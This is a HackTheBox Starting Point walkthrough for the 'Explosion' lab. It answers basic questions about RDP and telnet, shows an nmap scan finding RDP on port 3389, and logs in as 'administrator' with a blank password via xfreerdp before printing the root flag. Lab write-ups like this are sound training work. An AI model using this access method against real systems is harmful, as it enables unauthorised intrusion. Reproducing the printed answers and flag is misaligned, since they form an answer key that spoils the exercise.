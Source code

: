 ```yaml
---
title: 🔵 HTB / Starting Point / Explosion
date: 2023-08-01
categories: [HackTheBox, Machines]
tags: [rdp, xfreerdp]
---
```


# Explosion

What does the 3-letter acronym RDP stand for?

`Remote Desktop Protocol`

What is a 3-letter acronym that refers to interaction with the host through a command line interface?

`cli`

What about graphical use interactions?

`gui`

_What is the name of an old remote access tool that came without encryption by default and listens on TCP port 23?_

`telnet`

Whats is the name of the service running on port 3389 TCP?

```bash
$ nmap -sV -p-
...
PORT      STATE SERVICE       VERSION
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
...
```

What username successfully returns a desktop projection to us with a blank password

`administrator`

Submit root flag

```bash
$ xfreerdp /u:administrator /v:hostname
...
951fa96d7830c451b536be5a6be008a0
```
